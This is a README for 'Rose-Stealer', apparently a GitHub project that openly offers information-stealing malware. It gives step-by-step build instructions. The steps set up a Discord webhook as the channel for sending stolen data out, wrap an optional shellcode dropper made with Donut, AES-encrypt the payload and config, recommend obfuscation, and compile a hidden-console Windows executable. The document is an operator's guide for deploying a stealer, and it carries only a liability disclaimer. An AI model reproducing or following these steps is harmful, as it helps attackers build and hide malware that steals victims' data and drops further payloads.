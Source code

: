 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> I am not liable for anything that is happening with this software.
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. client\ `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py payload\shellc.dat payload\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py payload\config.ini payload\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/payload/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit) <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --noconsole --onefile --add-data "payload\shellc.aes;." --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`

**Yay! Your executable is now inside of the `dist` folder.**
